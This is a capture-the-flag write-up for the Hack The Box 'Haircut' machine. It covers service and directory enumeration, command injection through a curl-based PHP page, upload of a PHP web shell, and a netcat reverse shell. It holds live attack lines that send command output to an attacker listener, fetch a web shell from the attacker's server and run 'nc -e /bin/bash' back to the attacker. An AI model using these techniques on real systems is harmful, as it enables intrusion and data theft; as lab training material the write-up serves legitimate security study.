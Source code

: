 # htb-haircut
This is my [Hack the box](https://www.hackthebox.eu/)'s Haircut machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.24

Difficulty: Medium

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.24`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/haircut# nmap -sC -sV -oN haircut.nmap 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 13:39 EDT
Nmap scan report for 10.10.10.24
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

The web app running on port 80 is just an image.

Initial directories enumeration with the common list:

```
root@kali:~/htb/haircut# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u ${HAIRCUT}
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:55:47 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
===============================================================
2020/05/24 13:56:26 Finished
===============================================================
```

Found `/uploads` that is referenced by the image that appears on the page already.

After checking several lists and ways of enumerating directories, finally this one got `/exposed.php`:

```
root@kali:~/htb/haircut# gobuster dir --url 10.10.10.24 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/24 15:23:49 Starting gobuster
===============================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```

The page `/exposed.php` has a text input, and when passing a URL it displays on screen the result of curling it. I tried to inject some command but some symbols/keywords were blocked e.g. &, ;, |, python and nc. Curl flags are not blocked, though.

Checking `curl` man's page for ways to get more information about the system or executing arbitrary code, I thought of sending information through body data of a curl request sent to a `nc` listener on the attacker machine.

Set up listener from attacker: 
```
nc -lvp 4444
```

Commands now can be executed from the input as follows, and the result of the executed command will be passed as data to the listener:
```
$ATTACKERIP:4444 -d "`command goes here`"
```

So, the next couple of commands I'll list here will use this trick.

If command is `whoami`, the listener will print `www-data`.

It is possible to get the user flag already from here the same way:
```
cat /home/maria/Desktop/user
```

It may be a good idea to try to get a more steady shell. See what files/folders are present:
```
ls -alh
```

In the listener:
```
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

It seems `uploads` may be a good place where to place a web shell. I'm going to use a PHP web shell called `Predator.php` present in this repo https://github.com/JohnTroony/php-webshells.git. The first step is to make the shell "curleable" by exposing it through an http server in the attacker:
```
$ cd php-webshells
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And now from the input in /exposed.php we curl it to uploads leveraging the `-o` (output file) flag:
```
10.10.14.23:8000/Predator.php -o uploads/Predator.php
```

The shell is accessible from `uploads/Predator.php`, so let's set up a reverse shell using it.

Set `nc` listener in the attacker to handle the reverse shell:
```
nc -lvp 4444
```

The webshell allows the user to execute in the target system. Connect to the attacker as follows:
```
nc $IP_ATTACKER 4444 -e /bin/bash
```

Upgrade shell to more interactive one:
```
python3 -c "import pty; pty.spawn('/bin/bash');"
```

By running ```LinEnum.sh``` (copied to the target machine by setting up a Python http server as before), it can be noticed that there's a suspicious SUID executable in /usr/bin/screen-4.5.0, that turns out to be a vulnerable version that allows privilege escalation:
```
$ searchsploit screen 4.5.0
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation   | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation ( | linux/local/41152.txt
------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

